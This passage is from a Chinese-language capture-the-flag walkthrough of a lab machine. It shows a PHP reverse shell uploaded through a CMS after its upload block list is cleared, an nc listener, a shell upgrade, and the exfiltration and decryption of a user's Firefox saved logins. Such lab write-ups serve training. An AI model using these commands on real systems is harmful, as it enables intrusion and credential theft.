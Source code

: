 那就好办了，直接将原有的禁用列表全部删个干净

然后回到Pages -> 添加新页，类型选择file links

上传php reverse shell:

    <?php
    $sock=fsockopen("10.14.39.48",8888);$proc=proc_open("/bin/bash -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
    ?>

从fileList中可以看到，我们的文件上传到了user_upload文件夹。

## 还记得你刚刚做过的事情吗？ - Reverse shell

还记得刚刚扫描admin1的结果吗，里面有一个fileadmin目录，user_upload就在这里。

虽然我们直接访问/fileadmin/user_upload/没有任何返回。

但是我们知道文件名，不妨直接访问文件试试。

先开启nc监听：

    nc -vlnp 8888

访问：

    http://admin1.vulnnet.thm/fileadmin/user_upload/rev_she11.php/

成功getshell

## 升级shell

    python3 -c "import pty;pty.spawn('/bin/bash')"  

## 火狐浏览器凭据解密

进入/home/system

没权限读user.txt

发现./.mozilla文件夹，

    ls -la ./2fjnrwth.default-release 

里面包含了logins.json等等之类的文件。

我们下载它，首先压缩zip并打开http server：

    zip -r /tmp/data.zip ./2fjnrwth.default-release

    www-data@vulnnet-endgame:/tmp$ python3 -m http.server 8888

攻击机：

    wget http://10.10.70.55:8888/data.zip

将其解压，并使用firefox_decrypt.py进行获取凭据：

    python3 ./linux-tools_and_exp/firefox_decrypt.py ./2fjnrwth.default-release
